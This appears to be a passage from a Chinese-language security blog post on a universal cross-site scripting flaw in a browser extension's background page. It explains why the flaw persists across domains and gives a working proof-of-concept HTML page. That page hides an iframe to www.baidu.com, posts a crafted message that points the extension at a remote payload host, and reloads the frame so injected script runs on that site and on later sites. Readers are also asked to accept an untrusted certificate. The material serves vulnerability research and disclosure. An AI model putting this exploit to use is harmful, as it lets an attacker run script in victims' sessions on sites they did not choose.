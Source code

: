 

## background page

思考了一下 background page 的设计需求，我觉得它不应该像 content_script 一样每次访问页面执行一次。看了一些官方文档，并写了几个 demo，确定了以下两点：
1. background 并不是每次访问页面执行一次，内部定义的变量不会因为页面刷新而重新定义。
1. background 即使域改变也不会重新定义和赋值，所有的域都用一个 runtime。
第一点使得这个漏洞更加容易利用，第二点使得我们所写的 payload 并不只影响在 payload 中利用的网站，而是在浏览器和插件为重启之前，每次访问新的页面都可以在不同域下触发 payload。



## 利用

思路明确了之后，我们只需先 postmessage 一个 ``{`Action: "GETFARE",Data: `{`//payload看下面源码`}``}``， 把 IRData 设置为 Data 属性里的 payload， 再刷新页面使其重新执行 PerformAction 函数，PerformAction 会发送一个post请求到 plugdata.URL 上，并把返回传递到 `$("body").html(b)` 的 b 参数中。（重新设置 iframe 的 src 即可刷新页面）

ps. 由于最近p师傅的 note 神器，证书不能用了，我只能先用我自己没有认证的证书来，baidu 属于 https，要发送 ajax 请求，对象也必须得是 https. 且需要设置 Access-Control-Allow-Origin 和 Access-Control-Allow-Methods。 **请大家在访问poc前，先访问 [https://case.neargle.com](https://case.neargle.com) ，认证一下那个破证书**。

在插件已经启用的前提下打开以下链接链接即可，跨域到 www.baidu.com 执行 xss。且之后再访问任意网站 payload 都会执行。

poc: [https://blog.neargle.com/hacking-extensions/content_scripts_uxss/poc.html](https://blog.neargle.com/hacking-extensions/content_scripts_uxss/poc.html)

```
&lt;!DOCTYPE html&gt;
&lt;html lang="en"&gt;
&lt;head&gt;
    &lt;meta charset="UTF-8"&gt;
    &lt;meta name="viewport" content="width=device-width, initial-scale=1.0"&gt;
    &lt;meta http-equiv="X-UA-Compatible" content="ie=edge"&gt;
    &lt;title&gt;content script uxss poc&lt;/title&gt;
&lt;/head&gt;
&lt;body&gt;

    &lt;h1&gt;hacking-extensions&lt;/h1&gt;
    &lt;p&gt;source code: &lt;a href="https://github.com/neargle/hacking-extensions/tree/master/content_scripts_uxss"&gt;https://github.com/neargle/hacking-extensions/tree/master/content_scripts_uxss&lt;/a&gt;&lt;/p&gt;

    &lt;!-- poc content --&gt;
    &lt;iframe src="https://www.baidu.com" style="display: none;"&gt;&lt;/iframe&gt;
    &lt;script&gt;
        subframe = frames[0];
        data = `{`
        Action: "GETFARE",
            Data: `{``}`
        `}`
        data.Method = "POST";
        data.URL = "https://case.neargle.com/payload/uxss_payload.php";
        data.SetBodyText = true;
        data.post = `{``}`;
        setTimeout('subframe.postMessage(data, "*")', 2000);

        setTimeout(function()`{`
            document.querySelector('iframe').src = "https://www.baidu.com";
        `}`, 3000);
    &lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```
